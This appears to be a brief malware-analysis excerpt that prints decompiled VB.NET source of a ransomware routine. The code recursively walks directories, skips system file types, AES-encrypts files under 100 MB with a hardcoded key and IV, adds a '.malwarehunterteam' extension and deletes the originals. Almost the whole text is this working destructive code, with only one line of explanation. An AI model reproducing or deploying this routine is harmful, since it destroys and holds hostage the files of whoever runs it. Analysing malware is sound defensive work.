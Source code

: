 It will look for files in the directory except those with the following extensions in order not to disrupt the system :
".exe", ".dll", ".scr", ".com", ".pif", ".ini", ".log", ".sys", ".drv", ".xml", ".dat", ".reg"

``` 
Private Sub method_0(string_0 As String)
	For Each string_ As String In Directory.GetFiles(string_0)
		If Not Me.method_1(string_) Then
			Me.method_2(string_)
		End If
	Next
	For Each string_2 As String In Directory.GetDirectories(string_0)
		Me.method_0(string_2)
	Next
End Sub

Private Function method_1(string_0 As String) As Boolean
	Dim source As IEnumerable(Of String) = New String() { Form1.newExtension, ".exe", ".dll", ".scr", ".com", ".pif", ".ini", ".log", ".sys", ".drv", ".xml", ".dat", ".reg" }
	Dim extension As String = Path.GetExtension(string_0)
	Return source.Contains(extension)
End Function
```

Then we have :

```
Private Sub method_2(string_0 As String)
	Try
		If New FileInfo(string_0).Length <= 104857600L Then
			Dim path As String = string_0 + Form1.newExtension
			Using aes As Aes = Aes.Create()
				aes.Key = Form1.byte_0
				aes.IV = Form1.byte_1
				Using fileStream As FileStream = New FileStream(string_0, FileMode.Open)
					Using fileStream2 As FileStream = New FileStream(path, FileMode.Create)
						Using cryptoTransform As ICryptoTransform = aes.CreateEncryptor(aes.Key, aes.IV)
							Using cryptoStream As CryptoStream = New CryptoStream(fileStream2, cryptoTransform, CryptoStreamMode.Write)
								fileStream.CopyTo(cryptoStream)
							End Using
						End Using
					End Using
				End Using
			End Using
			File.Delete(string_0)
		End If
	Catch ex As Exception
	End Try
End Sub

' Token: 0x04000010 RID: 16
Public Shared newExtension As String = ".malwarehunterteam"

' Token: 0x04000011 RID: 17
Private Shared byte_0 As Byte() = New Byte() {1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32}

' Token: 0x04000012 RID: 18
Private Shared byte_1 As Byte() = New Byte() {33, 34, 35, 36, 37, 38, 39, 40, 41, 42, 43, 44, 45, 46, 47, 48}

```
